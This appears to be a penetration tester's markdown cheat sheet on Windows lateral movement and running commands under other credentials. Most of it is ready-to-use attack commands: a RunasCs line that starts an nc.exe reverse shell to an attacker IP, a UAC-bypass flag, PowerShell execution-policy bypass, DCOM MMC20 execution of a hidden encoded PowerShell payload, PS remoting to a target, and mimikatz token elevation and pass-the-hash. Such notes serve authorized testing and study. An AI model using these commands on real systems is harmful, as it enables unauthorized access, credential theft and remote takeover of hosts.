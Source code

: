 ```shell
# Need to create a secured credential
$Username = "DOMAIN\Username"
$Password = "Password"
$SecurePassword = ConvertTo-SecureString $Password -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential ($Username, $SecurePassword)

Start-Process -FilePath C:\path\to\program.exe -Credential $Credential
```
## RunasCs (Non Gui)
```shell
# Invode-RunasCs.ps1 #
powershell -ep bypass
. .\Invoke-RunasCs.ps1

# nc.exe reverse payload (try others if it doesnt work)
Invoke-RunasCs DOMAIN\user pass "C:\Users\Public\nc.exe KALI_IP LPORT -e powershell" --force-profile --logon-type 2

# RunasCs.exe #
RunasCs.exe user pass cmd ...
-d [domain]
-r [host]:[port] (reverse shell)
-b (bypasses UAC)

# https://github.com/antonioCoco/RunasCs/tree/master
```
## psremoting
```shell
# 1 In ADMIN powershell, add target to trustedhosts
Enable-PSRemoting
Set-Item wsman:\localhost\client\trustedhosts 192.168.50.80

# 2 Run
# A Single command
Invoke-Command -ComputerName 192.168.50.80 -ScriptBlock { ipconfig } -Credential offensive

# B Session
Enter-PSSession -ComputerName 192.168.50.80 -Credential offensive
```
## Dcom
```shell
$TARGET = "192.168.50.73";
$dcom=[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1",$TARGET));
# python3 encode.py and sub in to below
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -enc ...","7")
```
## mimikatz
```shell
privilege::debug
token::elevate
token::revert
sekurlsa::pth /user:[user] /domain:[domain] /ntlm:[NT hash] /run:"[command]"
```
